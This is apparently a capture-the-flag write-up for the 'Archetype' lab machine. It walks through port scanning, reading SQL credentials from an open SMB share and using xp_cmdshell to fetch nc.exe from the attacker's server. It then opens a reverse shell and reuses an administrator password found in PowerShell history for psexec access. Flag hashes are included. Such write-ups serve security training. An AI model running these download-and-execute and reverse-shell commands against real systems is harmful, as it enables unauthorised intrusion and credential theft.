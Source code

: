 # Archetype

'''
export IP=10.10.10.27
'''

'''
open Ports
'''
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
smb was detected
computer name: Archetype
account: guest
auth_level: user

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC

Able to access backups smb share
smbclient //$IP/backups

We found a config file within the root of this share
prod.dtsConfig

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

Gained access to the MS SQL server with the above creds
impacket-mssqlclient sql_svc:M3g4c0rp123@IP -window-auth

Uploaded into TEMP folder nc.exe and ran it to execute a reverse shell on our machine we ran python3 -m http.server to host the web server for downloading the nc.exe from sql server

in sql server we used:
xp_cmdshell powershell wget http://$IP:8000/nc.exe -OutFile %TEMP&\nc.exe

once we downloaded that file, using nc we listened on port 1234 for connection

on the sql machinr we then ran the command nc.exe to execute a reverse shell 
xp_cmdshell powershell %TEMP&\nc.exe -nv $IP 1234 -e cmd.exe

We now have access to a remote shell

we found user.txt in the Desktop of sql_svc user
3e7b102e78218e935bf3f4951fec21a3

we checked the powershell ConsoleHost:history.txt file we found that the previous user had logged in to backups using the admin user with a password type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

Using impacket-psexec we were able to log into the system as an administrator.
We then navigated to the Admins Home directory and to its Desktop filder and found a root.txt

b91ccec3305e98240082d4474b848528